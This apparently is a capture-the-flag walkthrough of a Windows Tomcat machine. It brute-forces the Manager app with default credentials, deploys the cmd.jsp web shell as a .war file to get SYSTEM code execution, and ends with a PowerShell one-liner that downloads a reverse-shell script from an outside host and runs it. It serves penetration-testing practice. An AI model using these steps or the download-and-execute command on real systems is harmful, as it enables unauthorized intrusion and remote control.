# 10 - Tomcat


# Index


# Manager App button prompts us for credentials




# /manager/html Brute-force with default credentials 



# Windows Server 2012 R2


# [cmd.jsp](https://github.com/SecurityRiskAdvisors/cmd.jsp)





Select *cmd.war* and hit *Deploy*. *.war* files are basically zipped java servlets 

Once it's deployed click /cmd on application list





New application doesn't have a default page we know that war file includes our cmd.jsp


# cmd/cmd.jsp




# Code execution as system



# Download a reverse shell  and execute it
```powershell
powershell.exe -c IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.12/reverse.ps1')
```



